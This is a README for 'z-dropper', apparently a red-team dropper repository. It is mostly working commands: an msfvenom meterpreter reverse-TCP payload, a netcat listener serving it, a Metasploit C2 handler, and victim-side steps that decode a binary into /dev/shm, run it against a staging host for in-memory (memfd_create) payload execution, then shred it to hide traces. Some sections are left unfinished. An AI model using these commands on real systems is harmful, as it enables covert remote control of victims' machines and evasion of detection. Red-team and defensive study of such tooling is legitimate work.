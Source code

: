 # z-dropper

## Purpose

This repository contains the collection of

## Backend (basic version)

Staging machine (ephemeral) serving stageless `mettle` payload:

```
staging$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<C2_IP> LPORT=443 --platform linux -f elf -a x64 -o beacon-mettle
staging$ nc -nlvp 443 < beacon-mettle
```

Meterpreter handler as our command and control (`C2`) machine:

```
c2$ cat > mettle-handler.rc <<'EOF'
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <C2_IP>
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

c2$ msfconsole -r mettle-handler.rc
```

## Case 1

Assumptions:

 - Only `z-dropper` binary touches the victime's disk.
 - Payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall (directly from memory).

C version:

```
# Getting z-dropper:
wget sdf

# On the redteamer machine (using C implementation):
redteamer$ EXE=z-dropper-case1; zig cc -static -Os -target x86_64-linux-musl ${EXE}.c -o $EXE; strip -x -R -s -g $EXE; echo; cat "$EXE" | base64 -w 0; echo; echo

# On the redteamer machine (using Zig implementation):
zig build-exe -OReleaseSmall --strip z-dropper-case1.zig

# On the victim machine (where `<BASE64_ENCODED_BIN>` is taken from previous step):
victim$ echo -n '<BASE64_ENCODED_BIN>' | base64 -d >/dev/shm/s; chmod +x /dev/shm/s; /dev/shm/s <STAGING_IP> 443; shred -u -f -z /dev/shm/s
```

Zig version:

## Case 2

Assumptions:

 - Pure fileless execution.
 - Python 3 interpreter is required on the victim machine. 
 - Payload (stageless `mettle` binary in this case) is downloaded and executed using `memfd_create` syscall using Python's `ctype` module.
